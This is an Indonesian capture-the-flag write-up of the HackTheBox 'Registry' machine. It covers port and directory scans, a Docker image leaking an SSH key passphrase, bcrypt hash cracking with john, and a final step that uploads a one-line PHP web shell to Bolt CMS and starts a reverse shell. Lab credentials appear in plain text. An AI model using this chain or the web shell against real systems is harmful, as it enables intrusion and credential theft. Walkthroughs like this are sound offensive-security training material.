 
| PORT | STATE | SERVICE | VERSION                               |
|------|-------|---------|---------------------------------------|
| 22/tcp  | open  | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3       |
| 80/tcp  | open  | http    | nginx 1.14.0 (Ubuntu)                 |
| 443/tcp | open  | ssl/http| nginx 1.14.0 (Ubuntu)                 |

### Service Details:

**SSH:**
- Port: 22/tcp
- Version: OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
- SSH Host Keys:
  - RSA: 2048 72:d4:8d:da:ff:9b:94:2a:ee:55:0c:04:30:71:88:93
  - ECDSA: 256 c7:40:d0:0e:e4:97:4a:4f:f9:fb:b2:0b:33:99:48:6d
  - ED25519: 256 78:34:80:14:a1:3d:56:12:b4:0a:98:1f:e6:b4:e8:93

**HTTP:**
- Port: 80/tcp
- Service: nginx 1.14.0 (Ubuntu)
- HTTP Server Header: nginx/1.14.0 (Ubuntu)
- HTTP Title: Welcome to nginx!

**HTTPS:**
- Port: 443/tcp
- Service: nginx 1.14.0 (Ubuntu)
- SSL Certificate:
  - Subject: commonName=docker.registry.htb
  - Validity: Not valid before 2019-05-06, Not valid after 2029-05-03
- HTTP Server Header: nginx/1.14.0 (Ubuntu)
- HTTP Title: Welcome to nginx!

### Additional Information:
- OS: Linux
- CPE: cpe:/o:linux:linux_kernel


# Docker register

di sini kita tau bahwa port 443 ada docker.register.htb
dan juga harus login dengan password dan username admin:admin di sini saya gak percaya default credentsial nya admin:admin wkwkwk


# ffuf Scan Results

#### Scan Details:
- **Method**: GET
- **URL**: [http://10.10.10.159/FUZZ](http://10.10.10.159/FUZZ)
- **Wordlist**: `/home/aexon/tools/wordlist/medium`
- **Extensions**: `.php`, `.txt`, `.log`
- **Follow redirects**: false
- **Calibration**: false
- **Timeout**: 10 seconds10.10.10.159
- **Threads**: 40
- **Matcher**: Response status: 200-299,301,302,307,401,403,405,500

#### Scan Results:

| Path         | Status | Size | Words | Lines | Duration |
|--------------|--------|------|-------|-------|----------|
| /install     | 301    | 194  | 7     | 8     | 541ms    |
| /bolt        | 301    | 194  | 7     | 8     | 107ms    |
| /            | 200    | 612  | 79    | 26    | 114ms    |

#### Scan Details:
- **Method**: GET
- **URL**: [http://registry.htb/bolt/FUZZ](http://registry.htb/bolt/FUZZ)
- **Wordlist**: `/home/aexon/tools/wordlist/medium`
- **Extensions**: `.txt`, `.php`, `.log`
- **Follow redirects**: false
- **Calibration**: false
- **Timeout**: 10 seconds
- **Threads**: 40
- **Matcher**: Response status: 200-299,301,302,307,401,403,405,500

#### Scan Results:

| Path         | Status | Size | Words | Lines | Duration |
|--------------|--------|------|-------|-------|----------|
| /index.php   | 200    | 8237 | 2934  | 218   | 314ms    |
| /files       | 301    | 194  | 7     | 8     | 133ms    |
| /tests       | 301    | 194  | 7     | 8     | 158ms    |
| /src         | 301    | 194  | 7     | 8     | 159ms    |
| /app         | 301    | 194  | 7     | 8     | 922ms    |
| /theme       | 301    | 194  | 7     | 8     | 199ms    |
| /vendor      | 301    | 194  | 7     | 8     | 714ms    |
| /extensions  | 301    | 194  | 7     | 8     | 134ms    |


# User exploit


di sini saya mendapatkan sebuat password pada folder ke 4

```bash
(DockerRegistryGrabber) ┌─[aexon@parrot]─[~/tools/enum/DockerRegistryGrabber/bolt-image/4/etc/profile.d]
└──╼ $cat 01-ssh.sh 
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

saya juga mendapatkan info beberapa user
	1. registry
	2. bolt

dan saya juga mendapatkan file id_rsa di folder nomer 2 /root/.ssh

```bash
(DockerRegistryGrabber) ┌─[✗]─[aexon@parrot]─[~/tools/enum/DockerRegistryGrabber/bolt-image/2/root/.ssh]
└──╼ $ssh -i id_rsa bolt@10.10.10.159
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Mon Jun 24 14:40:41 UTC 2024

  System load:  0.01              Users logged in:                0
  Usage of /:   68.7% of 4.71GB   IP address for eth0:            10.10.10.159
  Memory usage: 27%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    169
Last login: Mon Oct 21 10:31:48 2019 from 10.10.14.2
bolt@registry:~$ ls -al
total 28
drwx------ 6 bolt bolt 4096 Apr  6  2021 .
drwxr-xr-x 3 root root 4096 Apr  6  2021 ..
lrwxrwxrwx 1 bolt bolt    9 May 26  2019 .bash_history -> /dev/null
drwx------ 3 bolt bolt 4096 Apr  6  2021 .cache
drwx------ 3 bolt bolt 4096 Apr  6  2021 .gnupg
drwxrwxr-x 3 bolt bolt 4096 Apr  6  2021 .local
drwx------ 2 bolt bolt 4096 Apr  6  2021 .ssh
-r-------- 1 bolt bolt   33 Jun 24 13:14 user.txt
bolt@registry:~$ 

passowrd: GkOcz221Ftb3ugog
```



# ROOT

saya menemukan db dan credentsial di db nya



```bash
cat /var/www/html/bolt/app/database/bolt.db

admin$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```


```bash
┌─[aexon@parrot]─[~/Desktop/ctf-main/ctf-docs/CTF/hackthebox/linux/Registry]
└──╼ $sudo john --wordlist=/root/rockyou.txt password.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
strawberry       (?)     
1g 0:00:00:03 DONE (2024-06-24 22:17) 0.2816g/s 101.4p/s 101.4c/s 101.4C/s strawberry..brianna
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
┌─[aexon@parrot]─[~/Desktop/ctf-main/ctf-docs/CTF/hackthebox/linux/Registry]
└──╼ $

```


1. login ke bolt nya dan ubah configuration main nya tambahin pakai php
2. upload shell ke upload file dengan code :
   ```php
   <?php system($_REQUEST['cmd']); ?>
```
3. nyalakan reverse shell dengan ip localhost dan reverse shell di ssh nya langsung
4. ![[Screenshot at 2024-06-24 23-42-06.png]]
	